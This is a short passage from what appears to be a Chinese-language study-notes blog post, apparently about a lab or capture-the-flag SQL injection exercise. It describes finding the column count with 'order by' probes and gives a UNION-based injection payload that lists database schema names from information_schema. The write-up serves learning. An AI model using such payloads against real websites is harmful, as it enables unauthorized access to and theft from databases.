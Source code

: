 <img src="/assets/img/20200313学习总结/20200313学习总结4.jpg">  
下一步开始注入，先判断列数。  
<img src="/assets/img/20200313学习总结/20200313学习总结5.jpg">  
发现输入order by 3#有回显，而order by 4#则500响应，判断列数为3.  
下一步开始逐步爆库，爆表，爆列。  
```
'or '1'='1' union select 1,(select group_concat(schema_name) from information_schema.schemata),3#
```